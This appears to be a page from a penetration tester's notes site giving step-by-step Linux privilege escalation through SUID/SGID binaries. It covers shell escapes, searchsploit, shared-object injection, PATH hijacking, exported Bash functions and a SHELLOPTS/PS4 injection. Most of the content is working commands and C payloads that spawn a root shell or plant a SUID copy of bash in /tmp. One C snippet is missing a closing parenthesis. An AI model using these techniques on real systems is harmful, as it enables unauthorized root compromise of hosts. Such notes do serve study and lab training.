 ```yaml
---
title: SUID / SGID
parent: Method
layout: default
nav_order: 4
---
```


Cannot use `LD_PRELOAD` or `LD_LIBRARY_PATH` for SUID.

## Shell escape
1. Can find SUID and SGID files with this command:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Check the shell escape at https://gtfobins.github.io/

## Known Exploits
1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Check the version of the app (`--version` or `--help`)
3. Use `searchsploit appname version`
4. If got any `^M` character remove them, set executable `chmod +x esc.sh`
5. Execute to get root

## Shared Object Injection
1. Application will load shared objects required. So if we can know which shared objects not found we can replace them and get root if there is SUID.
2. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
3. Run strace on the file (eg if we see /usr/local/bin/suid-so):\
   `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
4. If we see something like open(`"/home/user/bla/libcalc.so`) in directory we can write to, we can attempt to create the file.
5. Create the bla directory, and create the libcalc.c as below.
6. Compile libcalc.c into /home/user/bla/libcalc.so:\
   `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`
7. Run the SUID file:\
   `/usr/local/bin/suid-so`

libcalc.c
```
#include <stdio.h>
#include <stdlib.h>
​
static void inject() __attribute__((constructor));
void inject() {
    setuid(0);
    system("/bin/bash -p"
}
```

## PATH environmental variable
1. When programA (not script) try to run another programB, most likely name of programB is embedded in the executable file of programA as a string.
2. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
3. Run `strings` on the suspicious app (for eg `strings /usr/local/bin/suid-env`). If you see something like `service apache2 start`, this app might be running service without a full path.
4. Can verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env 2>&1 | grep service`
5. Since it runs service, create a service.c as below. (OR JUST CREATE A METERPRETER COMMAND AND RENAME IT!) For example:\
   `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf > xxx`\
   Download on the target, then `chmod 777 xxx`\
   Make sure the name is correct, then run step 7: `PATH=.:$PATH /usr/local/bin/vulnser`\
6. Compile service.c into service:\
   `gcc service.c -o outputfilename`
7. Prepend the current directory (where you compiled service) into PATH and execute SUID: `PATH=.:$PATH /usr/local/bin/suid-env`

service.c
```
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

## Abusing Shell Feature 1
Only works on Bash < 4.2-048 (can define user function using a path name and even take priority)

1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Run `strings` on the suspicious app (eg: `strings /usr/local/bin/suid-env2`). If you see results like `/usr/sbin/service apache2 start`, although service is full path, still possible vulnerable.
3. Verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`
4. Ensure that bash is lower than 4.2-048\
   `bash --version`
5. Create a bash function with the name /usr/sbin/service and export the function:\
   `function /usr/sbin/service { /bin/bash -p; }`
   `export –f /usr/sbin/service`
6. Execute the SUID for root shell\
   `/usr/local/bin/suid-env2`

## Abusing Shell Feature 2
Debugging mode with SHELLOPTS

1. Find SUID files:\
   `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
2. Run `strings` on suspicious app (example `strings /usr/local/bin/suid-env2`). If you see results like `/usr/sbin/service apache2 start`, although service is full path, still possible vulnerable.
3. Verify with strace:\
   `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`\
   or ltrace:\
   `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`
4. Run the SUID file with debugging and our payload:\
   `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`
5. Run rootbash with -p to gain root shell:
   `/tmp/rootbash -p`
